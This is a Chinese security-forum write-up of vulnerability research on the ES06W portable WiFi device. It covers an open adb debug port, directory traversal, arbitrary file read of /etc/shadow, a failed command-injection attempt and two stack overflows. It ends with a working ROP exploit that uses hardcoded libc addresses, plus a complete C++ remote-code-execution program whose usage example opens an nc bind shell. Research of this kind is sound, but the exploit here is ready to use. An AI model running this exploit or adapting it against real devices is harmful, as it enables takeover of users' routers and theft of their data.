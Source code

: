 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bbs.pediy.com](https://bbs.pediy.com/thread-273940.htm)

> [原创] 对一个随身 WIFI 设备的漏洞挖掘尝试

对一个随身 WIFI 设备的漏洞挖掘尝试
====================

最近买了一个随时 WIFI 设备，正好自己在学习漏洞挖掘，于是拿这个练练手。  
设备版本信息：

```
software_version = V4565R03C01S61
hardware_version = M2V1
product_model = ES06W
upgrade_version = V4565R03C01S61
```

首先扫描了下设备开放的端口。设备开放了 22、80、443、5555、8080、9090 等多个端口。SSH 爆破测试了下，密码不是弱密码没什么突破。  
![](https://bbs.pediy.com/upload/attach/202208/780653_ZMPTVK95XAJPCVG.png)  
443、9090 端口访问会返回 404，可能需要其他参数，没什么突破。  
![](https://bbs.pediy.com/upload/attach/202208/780653_GKQPA8RPB58VHWU.png)  
设备开放了 5555 调试端口，可以直接通过 adb 连接获取设备权限。继续查找有没有其可利用的点。访问 8080 端口默认跳转到了 http://192.168.0.1:8080/vad_update.html 页面。该页面提供了设备升级、日志下载和 APN 设置功能。  
![](https://bbs.pediy.com/upload/attach/202208/780653_BKDWDKPQYH333UR.png)

目录遍历漏洞
------

查看 BurpSuite 历史记录，发现 http://192.168.0.1/file_list.json?dir = 请求比较有意思，dir 指定目录，返回包返回了 json 格式的目录信息。  
![](https://bbs.pediy.com/upload/attach/202208/780653_WKW593F86SSFYSU.png)  
![](https://bbs.pediy.com/upload/attach/202208/780653_5MUUZN4HW2URB8H.png)  
尝试通过 dir 参数进行目录遍历，如 / file_list.json?dir=../../../../../，确认存在目录遍历漏洞。  
![](https://bbs.pediy.com/upload/attach/202208/780653_C8RQQ2MUNWQW3JT.png)

任意文件读取漏洞
--------

继续查看 BurpSuite 历史记录，发现 http://192.168.0.1/apns-conf.xml 请求也比较有意思，URI 指定了一个文件名，返回包是文件内容。  
![](https://bbs.pediy.com/upload/attach/202208/780653_9STESC875VX87N8.png)  
于是尝试通过 URI 进行目录遍历读取文件，确认存在任意文件读取漏洞。这时利用任意文件读取漏洞可以读取到 / etc/shadow 的 SSH 密码了，可以尝试破解密码后直接使用 SSH 登录。  
![](https://bbs.pediy.com/upload/attach/202208/780653_BHXPYRZ8SSKKP8Q.png)

寻找命令注入漏洞
--------

接下来准备把 HTTP 服务程序拿出来分析下。设备默认开启了 5555 端口，可以直接通过 adb 连接拿到设备权限。通过看看连接状态可以确定 / opt/ejoin/bin/vfd 就是 HTTP 服务程序。  
![](https://bbs.pediy.com/upload/attach/202208/780653_CKGFHEHUPZYYDHC.png)  
![](https://bbs.pediy.com/upload/attach/202208/780653_66JWPVE5XV6NFGQ.png)  
/opt/ejoin/bin/vfd 为 32 位 ARM 架构，定位到 HTTP 请求解析的代码进行分析。首先尝试寻找命令注入漏洞。但是发现 vfd 中没有 system、popen 函数，执行命令是调用的 sub_C1F4 函数。  
![](https://bbs.pediy.com/upload/attach/202208/780653_SFRVADDXN2C4XZK.png)  
sub_C1F4 函数内部调用 sub_12024 函数，sub_12024 函数内部通过调用 / opt/ejoin/var/pipe/vshd 程序传递参数执行命令。  
![](https://bbs.pediy.com/upload/attach/202208/780653_QG4Z6R54XVYY24P.png)  
于是查找引用 sub_12024 函数的地方，sub_12280 和 sub_12294 都不能控制参数，只有 sub_122A8 函数中参数似乎是可控的。sub_122A8 函数中将 a1 参数拼接到 “cd %s” 命令中执行。  
![](https://bbs.pediy.com/upload/attach/202208/780653_VBPWH7YNUXC55E3.png)  
![](https://bbs.pediy.com/upload/attach/202208/780653_KUBYYYFFFERZTA6.png)  
继续查找引用 sub_122A8 函数的地方，发现只有一个地址。通过调式信息来看，传递给 sub_122A8 函数的 a1 参数为一个目录。  
![](https://bbs.pediy.com/upload/attach/202208/780653_EJQ4P356Y5V7EPU.png)  
继续查找交叉引用，最终发现目录来自 http://192.168.0.1/Uplog.html 请求的 filename 参数。  
![](https://bbs.pediy.com/upload/attach/202208/780653_V6WMSKV9JNSVDQQ.png)  
![](https://bbs.pediy.com/upload/attach/202208/780653_E36E7XF4YF4XB57.png)  
于是构造下列请求 http://192.168.0.1:8080/uplog.html?filename=/etc/passwd&fileurl=123 进行测试，正好 WEB 页面可以下载 vfd 日志，从日志中看出，vfd 将 filename 指定的路径分割出目录和文件名，并切换到相应的目录并压缩文件。  
![](https://bbs.pediy.com/upload/attach/202208/780653_T8A4KHVMUBCPEG6.png)  
尝试构造 http://192.168.0.1:8080/uplog.html?filename=/etc/;id/../../../etc/passwd&fileurl=123 请求进行测试，发现代码中会对 filename 指向的文件是否存在进行判断，暂时没法绕过进行命令注入。  
![](https://bbs.pediy.com/upload/attach/202208/780653_KKPGZ9UJFQ6TJJ9.png)

尝试找栈溢出漏洞
--------

于是尝试查找 vfd 解析请求的代码中的栈溢出漏洞。发现解析 http://192.168.0.1/file_list.json?dir = 请求时，sub_EE48 函数会将 dir 参数的内容拼接到栈空间 s 中，s 只有 256 字节大小，这里存在一个栈溢出漏洞。  
![](https://bbs.pediy.com/upload/attach/202208/780653_6V78V4H5PPMQ9RG.png)  
继续查找发现 sub_D7A8 函数在解析读取文件的请求时，直接将 URI 拷贝到栈空间 s，s 只有 280 字节大小，也存在栈溢出漏洞。  
![](https://bbs.pediy.com/upload/attach/202208/780653_75AHEPE5CXY4USX.png)

栈溢出漏洞利用
-------

这里尝试对 sub_D7A8 函数中的栈溢出漏洞进行利用。adb 连接设备后通过 gdb 调式 vfd 程序。构造如下 POC 发送：

```
http://192.168.0.1:8080/aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazaAaBaCaDaEaFaGaHaIaJaKaLaMaNaOaPaQaRaSaTaUaVaWaXaYaZa0a1a2a3a4a5a6a7a8a9babbbcbdbebfbgbhbibjbkblbmbnbobpbqbrbsbtbubvbwbxbybzbAbBbCbDbEbFbGbHbIbJbKbLbMbNbObPbQbRbSbTbUbVbWbXbYbZb0b1b2b3b4b5b6b7b8b9cacbcccdcecfcgchcicjckclcmcncocpcqcrcsctcucvcwcxcycz
```

根据 PC 寄存器地址定位到要覆盖的返回地址偏移为 261。  
![](https://bbs.pediy.com/upload/attach/202208/780653_JTSDYKP8NRJWG2P.png)  
修改 POC 如下，就可以将 PC 寄存器劫持为指定的地址了。

```
http://192.168.0.1:8080/aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazaAaBaCaDaEaFaGaHaIaJaKaLaMaNaOaPaQaRaSaTaUaVaWaXaYaZa0a1a2a3a4a5a6a7a8a9babbbcbdbebfbgbhbibjbkblbmbnbobpbqbrbsbtbubvbwbxbybzbAbBbCbDbEbFbGbHbIbJbKbLbMbNbObPbQbRbSbTbUbVbWbXbYbZb0b1b2b3b4b5b6b7b8b9cacbcccdc123DDDD
```

![](https://bbs.pediy.com/upload/attach/202208/780653_4VG2Z2KG8UXZHC8.png)  
漏洞函数在返回时执行 POP {R4-R7,PC}，因此 R4-R7 寄存器也是可以控制的。  
![](https://bbs.pediy.com/upload/attach/202208/780653_H339SFGHKBPZX9K.png)  
系统没有随机基址，漏洞利用较为简单，只需要避免字符串截断就行。因此直接从 libc 库中查找到 MOV R0,SP; LDR R2,[R7]; BLX R2; 指令的地址 0x48d50294 用来覆盖返回地址。  
![](https://bbs.pediy.com/upload/attach/202208/780653_PMQZ4HKZAWGH9R3.png)  
漏洞函数返回后，SP 指向覆盖的返回地址后面，就可以通过 URL 的内容来控制 R0 寄存器指向的字符串。R2 寄存器可以用 R7 来控制。Libc 中 system 函数地址为 0x48CEA830。找到一个指向 system 函数地址的指针 0x48CB5FBC 来控制 R7 寄存器。  
![](https://bbs.pediy.com/upload/attach/202208/780653_S38P4M4WB987VM8.png)  
![](https://bbs.pediy.com/upload/attach/202208/780653_MK8Q3BJ4ZDC7PQ7.png)  
从新构造如下 POC 后调式：  
![](https://bbs.pediy.com/upload/attach/202208/780653_WNUTWSC8SHXX2KA.png)  
触发漏洞后执行到 0x48d50294 时，R7 为控制的 0x48CB5FBC。  
![](https://bbs.pediy.com/upload/attach/202208/780653_G8878FTRWGESDUN.png)  
此时 SP 指向用来覆盖返回地址的值后面，可以将要执行的命令拼接在 URL 末尾来执行命令。  
![](https://bbs.pediy.com/upload/attach/202208/780653_PV6EBG8QJ65PSDV.png)  
执行到 BLX R2 指令时，R2 就是 system 函数地址了。  
![](https://bbs.pediy.com/upload/attach/202208/780653_A8QW7MT9FWASTHG.png)  
测试 EXP：  
![](https://bbs.pediy.com/upload/attach/202208/780653_QWMPVHWRA3Z8WSP.png)  
EXP：

```
// ES06W-RCE.cpp :
//
#include "stdafx.h"
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include #include #pragma comment(lib, "ws2_32.lib")
 
void ShowHelp()
{
    printf("[+]Usage: ES06W-RCE.exe [Command]\n");
    printf("[+]Example: ES06W-RCE.exe \"nc${IFS}-lp${IFS}4444${IFS}-e${IFS}/bin/sh\"\n");
}
 
 
int main(int argc, char** argv)
{
    WSADATA stcData = {};
    int int_ret = 0;
    char str_recv[0x1000] = {};
    char str_payload_final[0x1000] = {};
 
    //
    if (argc != 2) {
        ShowHelp();
        return 0;
    }
    //
    int_ret = WSAStartup(MAKEWORD(2, 2), &stcData);
    if (int_ret == SOCKET_ERROR) {
        printf("[-]Init Failed!\n");
        return 0;
    }
    //
 
    char str_payload[] = {
        "GET /aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazaAaBaCaDaEaFaGaHa"
        "IaJaKaLaMaNaOaPaQaRaSaTaUaVaWaXaYaZa0a1a2a3a4a5a6a7a8a9babbbcbdbebfbgbhbib"
        "jbkblbmbnbobpbqbrbsbtbubvbwbxbybzbAbBbCbDbEbFbGbHbIbJbKbLbMbNbObPbQbRbSbTb"
        "UbVbWbXbYbZb0b1b2b3b4b5b6b7b8b9cacbcccd"
        "\xBC\x5F\xCB\x48"                    //Control R7
        "\x94\x02\xD5\x48"                    //Return Addr
        "%s"                                //Command
        " HTTP/1.1\r\n"       
        "Host: 192.168.0.1:8080\r\n"
        "Connection: keep-alive\r\n"
        "Upgrade-Insecure-Requests: 1\r\n"
        "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36\r\n"
        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n"
        "Accept-Encoding: gzip, deflate\r\n"
        "Accept-Language: zh-CN,zh;q=0.9\r\n\r\n\0"
    };
 
    sprintf_s(str_payload_final, 0x1000, str_payload, argv[1]);
 
    //
    SOCKET sock_client = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    sockaddr_in sock_addr;
    sock_addr.sin_family = AF_INET;
    sock_addr.sin_port = htons(8080);
    sock_addr.sin_addr.S_un.S_addr = inet_addr("192.168.0.1");
    //
    int nErrCode = 0;
    int_ret = connect(sock_client, (sockaddr*)&sock_addr, sizeof(sockaddr_in));
    //
    send(sock_client, str_payload_final, strlen(str_payload_final), 0);
    //
    Sleep(20);
    recv(sock_client, str_recv, sizeof(str_recv), 0);
    printf("[-]Recv: %s\n", str_recv);
 
    printf("[+]Finished!\n");
    closesocket(sock_client);
    WSACleanup();
    //
    return 0;
} 
```

[[2022 夏季班]《安卓高级研修班 (网课)》月薪两万班招生中～](https://www.kanxue.com/book-section_list-83.htm)

[#安全研究](forum-128-1-167.htm) [#漏洞分析](forum-128-1-171.htm) [#漏洞挖掘](forum-128-1-178.htm) [#家用设备](forum-128-1-173.htm)